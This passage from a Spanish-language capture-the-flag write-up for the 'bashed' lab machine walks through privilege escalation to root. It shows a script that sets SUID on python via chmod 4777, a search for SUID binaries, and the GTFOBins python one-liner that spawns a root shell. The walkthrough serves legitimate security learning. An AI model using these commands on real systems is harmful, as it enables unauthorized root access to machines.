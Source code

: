 ## PRIVILEGE ESCALATION TO ROOT

En este momento podemos escalar privilegios de la forma que deseemos, ya sea mandándonos una reverse shell, dando privilegios suid a un binario, creando capabilities, etc.

En mi caso daré permisos SUID a python de la siguiente forma.

```bash
scriptmanager@bashed:/scripts$ cat test.py 
import os
os.system("chmod 4777 /usr/bin/python")

```
<br>
Buscamos permisos SUID en busca de python.

```bash
scriptmanager@bashed:/scripts$  find / -perm /4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/python2.7
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign

```

Solo faltaría buscar el comando en <a href="https://gtfobins.github.io/gtfobins/python/" target="_blank">GTFOBINS</a>.

Ejecutamos.
```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```
¡Ya somos ROOT! A por esas flags.

## FLAGS

<h3>User.txt</h3>
